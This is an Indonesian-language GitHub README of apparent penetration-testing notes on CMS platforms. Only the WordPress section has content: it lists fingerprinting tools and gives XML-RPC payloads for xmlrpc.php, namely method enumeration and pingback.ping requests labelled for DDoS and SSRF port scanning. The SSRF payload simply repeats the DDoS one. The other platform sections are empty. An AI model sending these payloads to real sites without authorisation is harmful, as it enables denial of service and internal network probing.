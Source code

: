 # CMS (Content Management System)
## Definisi

Content Management System (CMS) adalah sebuah platform software yang yang memungkinkan pengguna untuk membangun dan mengelola situs web dengan pengetahuan dan sumber daya teknis yang terbatas. Ini memungkinkan pengguna untuk membuat, mengelola, dan memodifikasi konten di situs web dengan Graphic User Interface (GUI) yang membuat interaksi menjadi user friendly tanpa memerlukan pengetahuan teknis apa pun.

## Beberapa Platform yang **Mungkin** rentan akan CMS
1. Wordpress
2. Adobe Experience Manager
3. Drupal
4. Moodle

## Teknik Serangan pada platform Wordpress
Berikut merupakan beberapa *security misconfiguration* yang biasa terjadi pada platform Wordpress beserta *tools* yang bisa digunakan untuk mendeteksi terjadinya kerentanan tersebut. 

### Tool untuk deteksi
1. Wappalyzer
2. WhatRuns
3. BuildWith
4. WpScan

### xmlrpc.php
Ini merupakan kerentanan paling umum pada wordpress, cara mendeteksi kerentanan tersebut adalah sebagai berikut :
* kunjungi site dari siteyangdituju.com/xmlrpc.php
* Mendapatkan pesan error tentang *POST request only*

Kemudian berikut cara melakukan exploitnya:
* Lakukan *intercept* pada *request* dan ubah *method* GET ke POST
* Kemudian masukan payload ini saat POST untuk melihat semua *Method* yang bisa digunakan
    ```
    <methodCall>
    <methodName>system.listMethods</methodName>
    <params></params>
    </methodCall>
    ```
* Lihat apabila ada *method* ```pingback.ping``` pada list yang ditampilkan
* Jika ada *method* diatas maka bisa dilakukan DDoS dengan *payload* berikut
    ```
    <methodCall>
    <methodName>pingback.ping</methodName>
    <params><param>
    <value><string>http://<IP SERVER ANDA>:<port></string></value>
    </param><param><value><string>http://<ALAMAT HOST YANG DIUJI></string>
    </value></param></params>
    </methodCall>
    ```
* Perform SSRF (Internal PORT scan only)
    ```
    <methodCall>
    <methodName>pingback.ping</methodName>
    <params><param>
    <value><string>http://<IP SERVER ANDA>:<port></string></value>
    </param><param><value><string>http://<ALAMAT HOST YANG DIUJI></string>
    </value></param></params>
    </methodCall>
    ```

## Teknik Serangan pada platform Adobe Experience Manager

## Teknik Serangan pada platform Drupal

## Teknik Serangan pada platform Moodle

## Author
**[rad1zly](https://github.com/rad1zly)**


